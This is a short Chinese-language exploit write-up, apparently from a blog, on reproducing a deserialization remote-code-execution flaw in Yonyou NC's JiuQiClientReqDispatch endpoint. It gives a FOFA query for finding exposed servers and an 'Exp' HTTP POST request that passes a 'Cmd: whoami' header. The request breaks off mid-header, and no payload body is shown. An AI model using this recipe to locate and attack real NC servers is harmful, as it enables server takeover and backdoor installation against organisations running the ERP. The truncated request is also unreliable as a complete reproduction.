

# 用友NC JiuQiClientReqDispatch反序列化RCE漏洞复现

### 0x01 产品简介

 [用友](https://so.csdn.net/so/search?q=%E7%94%A8%E5%8F%8B&spm=1001.2101.3001.7020 "用友")NC是一款企业级ERP软件。作为一种信息化管理工具，用友NC提供了一系列业务管理模块，包括财务会计、[采购管理](https://so.csdn.net/so/search?q=%E9%87%87%E8%B4%AD%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020 "采购管理")、销售管理、物料管理、生产计划和人力资源管理等，帮助企业实现数字化转型和高效管理。

### 0x02 漏洞概述

  用友 NC JiuQiClientReqDispatch 接口存在反序列化代码执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 复现环境

FOFA：app="用友-UFIDA-NC"



### 0x04 漏洞复现 

Exp

```cobol
POST /servlet/~ic/com.ufsoft.iufo.jiuqi.JiuQiClientReqDispatch HTTP/1.1
Host: your-ip
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML
```
